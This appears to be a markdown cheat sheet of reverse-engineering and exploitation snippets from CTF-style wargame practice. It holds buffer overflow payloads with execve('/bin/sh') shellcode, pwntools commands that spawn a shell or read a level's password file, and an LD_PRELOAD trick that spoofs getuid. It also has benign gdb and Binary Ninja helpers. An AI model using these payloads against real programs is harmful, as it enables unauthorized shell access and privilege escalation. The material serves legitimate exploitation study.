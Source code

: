 # Reverse Engineering

- [GCC](#gcc)
- [OverFlow](#overflow)
- [Shellcode](#shellcode)

## Overflow
### Basic
```
(python -c "import struct; print('A' * (100 - 0) + struct.pack('<I', 0xffffffff))")
```

### Shellcode
```
(python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (100 - 21) + struct.pack('<I', 0xffffffff))")
```

## Shellcode
### Cat
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass')); print(shell); print(len(shell))"
```

### Exec sh 1
```
python -c "import pwn; shell = pwn.asm(pwn.shellcraft.i386.linux.sh()); print(shell); print(len(shell))"
```

### Exec sh 2
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
21
```

## GCC
### Get env address
```
x/10s **(char***)&environ
```
### Peda
#### Install
```
git clone https://github.com/longld/peda.git ~/.peda
echo "source ~/.peda/peda.py" >> ~/.gdbinit
echo "DONE! debug your program with gdb and enjoy"
```

### Binary ninja
#### Scrap code from html

```javascript
let result = '';
[...document.querySelectorAll('.LinearDisassemblyLine')].forEach(parent_elmt => {
  [...parent_elmt.children].forEach(children_elmt => {
    result += children_elmt.textContent
  });
  result +=  '\n'
});
console.log(result);
```

## Lib Injection
- Recreate getuid function
```C
uid_t	getuid(void)
{
	return (4242);
}
```
- compile
```
gcc -shared -fpic lib.c -o libnike.so -m32
```
- run and inject
```
LD_PRELOAD=./libnike.so ./exec
```
